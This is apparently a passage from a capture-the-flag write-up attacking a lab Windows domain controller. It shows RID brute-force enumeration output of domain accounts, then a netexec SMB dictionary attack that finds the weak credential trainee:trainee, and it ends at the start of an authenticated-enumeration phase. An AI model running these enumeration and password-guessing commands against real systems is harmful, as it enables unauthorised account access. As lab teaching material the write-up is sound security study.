 ```
SMB         10.10.83.167    445    DC               522: RETRO\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.83.167    445    DC               525: RETRO\Protected Users (SidTypeGroup)
SMB         10.10.83.167    445    DC               526: RETRO\Key Admins (SidTypeGroup)
SMB         10.10.83.167    445    DC               527: RETRO\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.83.167    445    DC               553: RETRO\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.83.167    445    DC               571: RETRO\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.83.167    445    DC               572: RETRO\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.83.167    445    DC               1000: RETRO\DC$ (SidTypeUser)
SMB         10.10.83.167    445    DC               1101: RETRO\DnsAdmins (SidTypeAlias)
SMB         10.10.83.167    445    DC               1102: RETRO\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.83.167    445    DC               1104: RETRO\trainee (SidTypeUser)
SMB         10.10.83.167    445    DC               1106: RETRO\BANKING$ (SidTypeUser)
SMB         10.10.83.167    445    DC               1107: RETRO\jburley (SidTypeUser)
SMB         10.10.83.167    445    DC               1108: RETRO\HelpDesk (SidTypeGroup)
SMB         10.10.83.167    445    DC               1109: RETRO\tblack (SidTypeUser)
```

The RID brute force reveals additional crucial information, including the presence of a `BANKING$` computer account (`RID 1106`). Computer accounts ending with `$` are typically used for domain-joined computers and represent potential attack vectors.

---

# Phase 4: Credential Discovery

Based on the intelligence gathered about weak password policies, we attempt dictionary attacks against identified users.

### Dictionary Attack

```
netexec smb 10.10.83.167 -u ./users.txt -p ./users.txt

SMB         10.10.83.167    445    DC         [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.10.83.167    445    DC         [+] retro.vl\trainee:trainee
```

The dictionary attack successfully identifies valid credentials: `trainee:trainee`. This confirms the weak password policy indicated in the intelligence document, where the shared trainee account uses the username as the password.

---

# Phase 5: Authenticated Enumeration

With valid credentials obtained, we can now access additional resources and gather more detailed intelligence about the environment.
